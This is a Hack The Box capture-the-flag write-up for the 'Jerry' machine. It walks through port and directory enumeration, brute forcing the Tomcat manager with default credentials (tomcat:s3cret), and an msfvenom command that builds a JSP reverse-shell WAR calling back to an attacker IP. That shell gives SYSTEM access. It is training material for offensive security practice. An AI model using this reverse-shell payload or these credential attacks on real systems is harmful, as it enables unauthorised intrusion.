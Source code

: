 # HTB - Jerry

##### Ip: 10.10.10.95
##### Name: Jerry
##### Rating: Easy

------------------------------------------------

Jerry.png

#### Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.95   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 12:25 CDT
Nmap scan report for 10.10.10.95
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Ok interesting, looks like only one port open, which is pretty rare for a Windows machine. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

nmap_scan.png

Looks like this is running Apache Tomcat, which usually hosts a login form in the `/manager` directory. Lets go ahead and kick off a directory fuzzing scan to see if there is anything interesting we can find:

```text
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/22 12:31:07 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Great! Navigating to the /manager directory in the browser I'm met with a login prompt:

login_page.png

#### Brute Forcing

Based on passed experience I know that Tomcat has a few different default passwords that are used during setup, and sometimes Administrators fail to change these credentials. Lets use Hydra to try and brute force these credentials, but rather than just using the standard rockyou.txt wordlist, in this case I'll try something more targeted to the specific service. There is a phenomenal wordlist package called SecLists available for download at https://github.com/danielmiessler/SecLists. This package contains multiple lists for directory fuzzing, wordlists for usernames and passwords, and more. Specifically of interest for us on Jerry, it also contains a list featuring default credentials for Tomcat. 

To me it always makes sense to try more targeted wordlsists first, and for a couple different reasons.

1. Just for the sake of my own time. Take a look at the wordcounts for the Tomcat Default Credentials list vs something like rockyou:

wc_list.png

Hydra can blaze through the Tomcat list n early instantly, while rockyou would take hours and hours. Starting more simple and targeted and increasing your net as needed seems like the best path here. Not to mention that highly specific credentials may not even exist at all in rockyou.

2. While not relevant on a HTB machine, throwing something like rockyou against a login page would generate a HUGE amount of network traffic and would likely be detected quickly. While brute forcing isn't stealthy by nature, the logic follows that fewer login attempts generates less traffic and noise, which is less likely to be detected.

So all that said lets kick off Hydra against the login page:

hydra_bf.png

Nice! Hydra has found two possible sets of credentials. The first pair of admin:admin turned out to be a false positive (Hydra is great, but not perfect after all), but the credentials tomcat:s3cret worked great. We can now login to the /manager page. From here it should be a breaze to get a working shell on the machine.

Scrolling down the page we see  there is an option to upload and deploy a .war file.

war_upload.png

This will be the ticket onto the machine. Lets go ahead and generate a reverse shell .war file using msfvenom:

#### Exploitation

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > rev_shell.war
```

After uploading the file and deploying it, I can see my rev_shell in the applications list. Making sure I have a netcat listener set up on port 443, I can catch a shell back by simply clicking on rev_shell, which forwards me to http://10.10.10.95:8080/rev_shell/.

Taking a look at my listener I see it worked, and I now have a shell as nt\authority system, which also means no privilege escalation needed!

nc_shell.png

Navigating to the Administrators desktop I see that both flags are in the '2 for the price of 1.txt' file:

both_flags.png

#### Something Extra

Funnily enough, in this case, brute forcing wasn't even needed. After a failed login attempt at /manager, we are redirected to a 403: Access Denied page, which contains some 'helpful' instructions:

access_denied.png

We can see here the default (but working) credentials listed as an example. To me, it always makes sense to start simple and throw a quick admin:admin or admin:password at a login page, or to try any example credentials you find before kicking off a brute forcing or dictionary attack.

#### Key Takeaways

- As a user or administrator, make sure you always change your default credentials when setting up services. Conversely, as an attacker, it's always a good idea to try known default credentials or other easy quick wins (root:root, admin:passwd, etc), before getting too technical or trying nosiy methods like brute forcing. 

-  On a similar note, it always makes sense to try simpler, more targeted attacks before resorting to more complex and less specific attack vectors. Cast a small net at first, and increase in complexity and in scope only as needed.

- Lastly, SecLists is your friend, and very much worth downloading and exploring.

Thanks for following along!

-Ryan

---------------------------------------------------------------------------------------------